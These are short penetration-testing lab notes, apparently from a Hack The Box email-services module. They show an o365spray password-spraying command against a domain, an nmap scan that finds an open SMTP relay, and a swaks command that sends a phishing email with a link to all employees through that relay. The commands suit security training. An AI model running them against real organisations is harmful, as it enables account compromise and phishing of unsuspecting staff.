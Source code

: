 
#### O365 Spray - Password Spraying

```shell
Sauuron@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```


#### Open Relay

```css
Sauuron@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

send mail
```css
Sauuron@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

